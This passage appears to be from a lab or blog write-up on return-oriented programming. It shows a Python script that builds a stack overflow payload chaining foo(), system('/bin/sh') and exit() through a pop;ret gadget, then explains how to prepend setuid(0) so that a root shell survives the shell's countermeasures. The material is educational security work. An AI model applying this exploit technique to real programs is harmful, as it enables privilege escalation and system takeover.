 ```python
# Address of the foo() function                                           #
# Address of the foo() function                                           #
# Address of the foo() function                                           #
# Address of the foo() function                                           #
# Address of the foo() function                                           #
# Address of the foo() function                                           #
# Address of the foo() function                                           #
# Address of the foo() function                                           #
###########################################################################


# build the stack dymanically
content += b'BBBB'
# foo()
for i in range(10):
    content += tobytes(foo_addr)
#system()
content += tobytes(system_addr)
content += tobytes(popret)
content += tobytes(sh_addr)
#exit()
content += tobytes(exit_addr)


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

When the vulnerable program is run, we see that the exploit is successful and we get a taste of rop

![task-5-a](https://github.com/iukadike/blog/assets/58455326/e16ff31a-8f89-4056-8072-835359514365)



#### Chain setuid() and system()

One way to solve the problem of deafeating shell's countermeasure is to invoke setuid(0) before invoking system(). This approach requires us to chain two functions.
together.

The stack will be built as:

```
Address of the exit() function
Address of arg[0] for system() function
pop; ret
Address of the system() function
Address arg[0] for setuid() function
pop; ret
Address of the setuid() function (this will overwrite the original return address)
```

we can use the `ropgadget` command while debugging the vulnerable program to get the address of the gadget we are interested in using
